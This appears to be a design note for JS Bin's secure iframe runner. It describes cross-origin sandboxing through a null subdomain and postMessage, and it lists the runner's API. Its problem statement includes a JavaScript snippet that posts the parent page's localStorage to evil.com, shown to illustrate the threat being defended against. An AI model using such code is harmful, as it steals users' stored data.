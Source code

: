 # Secure iframe

## Problem

When the iframe runs "insecure" code, the iframe can reach into the parent frame and steal cookies and other user data. This is as simple as:

```js
fetch('https://evil.com', {
  method: 'post',
  body: JSON.stringify(top.localStorage),
});
```

## Overview of solution

The existing solution is:

- Run main application code on jsbin.com
- iframe is loaded on null.jsbin.com
- iframe communicates using `postMessage` to render sub-iframe
- runner includes both result *and* console to allow for object comms

Since jsbin@5 uses create-react-app as the base, changes to the config are required, [detailed here](https://github.com/facebookincubator/create-react-app/issues/1084#issuecomment-308731651)

## Issues and questions

- [ ] Carry across display settings
- [x] How do I pass results and errors from the inner runner iframe to the console?

## Runner API

### Methods

- setCode
- setCSS
- on

### Events

- ready
- error
